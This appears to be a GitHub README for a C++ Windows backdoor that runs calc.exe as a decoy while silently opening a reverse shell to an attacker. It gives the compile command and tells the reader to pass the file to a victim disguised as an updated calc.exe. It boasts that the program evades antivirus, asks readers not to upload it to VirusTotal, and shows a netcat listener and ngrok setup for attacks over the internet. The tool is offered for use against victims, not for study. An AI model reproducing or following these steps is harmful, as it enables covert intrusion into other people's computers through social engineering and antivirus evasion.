 # Reverseshellcpp
A FUD Backdoor Reverse Shell coded in CPP for any Windows distribution, that will fire a decoy app in the foreground while connecting back to the attacker machine as a silent background process.

Change the IP to the attacker machine's IP and the port number to your desired port number and compile using:
i686-w64-mingw32-g++ reverse.cpp -o calc.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc

Pass it to the attacker , stating that this is a updated version of calc.exe.
You can scan the application with your AV solutions , if you want , and I am pretty sure thant 98% of the AV solutions will NOT detect it.
It has passed the check of Windows Defender with an updated definition file.

PLEASE DO NOT UPLOAD TO VIRUSTOTAL !!!

Start a netcat listener on port 8080 using nc -lvp 8080

Once the victim executes the app, the decoy process (calc.exe) will fire up in the foregroud on the victim's end , while a reverse shell will fire up in the background, giving you a DOS prompt on the attacker's end (nc listener).

Type in POWERSHELL on the DOS prompt to leverage the post exploitation module.

PS: Even if the victim decides to exit the calc.exe the reverse shell session will be on , as they are running on 2 different processes.

Cheers

#Captain_Nemo

PS: For WAN exploits , fire up ngrok with the following parameters (incase port forwarding is dissalowed by your ISP)
./ngrok tcp 8080

Region                        United States (us)                                                                                        
Web Interface                 http://127.0.0.1:4040                                                                                     
Forwarding                    tcp://0.tcp.ngrok.io:19864 -> localhost:8080                                                              
                                                                                                                                        
Connections                   ttl     opn     rt1     rt5     p50     p90                                                               
                              0       0       0.00    0.00    0.00    0.00   
                              

Ping 0.tcp.ngrok.io atleast 6-7 times to get a stable mirror IP and port.
When u see that the IP and the port numbers are same after 5-6 last pings , use that IP and port in the code.> compile the code > pass it to the victim machine > make sure ngrok is NOT interrupted on the attacker machine as a new ngrok session will grab a new IP and port > start a nc -lvp 8080 on the attacker system. > execute the payload on the victim machine > get session over WAN/Internet on the attacker machine .

https://youtu.be/I-BsI-Yeh4w

